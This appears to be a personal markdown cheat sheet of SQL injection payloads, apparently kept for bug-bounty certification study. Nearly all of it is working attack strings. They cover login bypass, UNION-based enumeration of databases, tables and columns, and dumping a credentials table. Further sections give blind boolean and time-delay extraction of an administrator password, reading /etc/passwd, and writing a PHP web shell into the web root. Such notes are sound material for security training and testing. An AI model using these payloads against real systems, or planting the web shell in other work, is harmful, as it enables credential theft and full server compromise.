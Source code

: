 # CBBH PATH

# SQL Injection Cheat Sheet
```powershell
# Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
```

## Find the Vuln Query
```powershell
# Check the url after the ?Abdullah=Abdullah
# Check login fields
```

## Fix the Query (Comment)
```powershell
--
#
```

## Payloads
```powershell
' or 1=1 --
'--
```
## String Concatenation
```powershell
' UNION select NULL, username || '*' || password from users--
```

## Detmine the number of columns
```powershell
# Using UNION. The number and the order of the columns must be the same in all queries && The data types must be compatible
cn' UNION select NULL, NULL, NULL-- -
cn' UNION select NULL, NULL, NULL, NULL-- -
UNION select NULL, NULL, NULL, NULL from Abdullah-- -

# Using OrderBy
' order by 1-- -
```

## Finding a column containing text (Data Type)
```powershell
# In case of an error it means the column is not type string
# In case of no error it menas the column is type string
cn' UNION select NULL, 'Abdullah', NULL, NULL-- -
UNION select username, NULL, NULL, 'Abdullah' from Abdullah-- -
```

## DB Enumeration
```powershell
SELECT @@version #Fingerprint MySQL with query output
SELECT SLEEP(5) #Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - #Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - #List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - #List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - #List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - #Dump data from a table in another database
```

# Blind SQLI
## Blind SQLI -  Find the vulnerable parameter (Conditional Responses)
```powershell
keep in mind that you need to find some strings to be returned from the web app like a welcome back message, if the query is true it will return welcome back otherwise it won't. If you can convert the true query to a false one this indicates a blind SQLI vulnerability exists. Example:
' and 1=1--  -> if this return true
' and 1=0--  -> if this return false
(Blind SQLI is present)
```

## Confirm that we have a users table (Conditional Responses)
```powershell
' and (select 'x' from users LIMIT 1)='X'--
```

## Confirm that username administrator exists in the users table (Conditional Responses)
```powershell
' and (select username from users where username ='administrator' LIMIT 1)='administrator'--
```

## Enumerate the password of the administrator user (Conditional Responses)
```powershel
1) determine the password length
# is the password > 1. If it returns true check if the password > 2 and so on... you can use intruder(sniper)
' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--

2) check if the first character is = 'A'. if yes u will get the welcome back message otherwise you will go to the next character 'B'... you can use intruder(cluster bomb)
' and (select substring(password,1,1) from users where username='administrator')='a'--
```

## Time Delays
```powershell
' || (SELECT pg_sleep(10))--
```

## Confirm that the users table exists (Time Delays)
```powershell
' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--
```

## Confirm the password length
```powershell
1) determine the password length
' || (SELECT CASE WHEN (username='administrator' and LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--

2) check if the first character is = 'A'. if yes u will get the welcome back message otherwise you will go to the next character 'B'... you can use intruder(cluster bomb)
' || (SELECT CASE WHEN (username='administrator' and substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--
```

## Privileges
```powershell
cn' UNION SELECT 1, user(), 3, 4-- -   #Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -   #Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -   #Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -  #Find which directories can be accessed through MySQL
```

## File Injection
```powershell
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -   #Read loal file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'   #write a string to a local file
cn' union select "",'<?php system($_REQUEST[Abdullah]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -   # Write a web shell into the base web directory
```
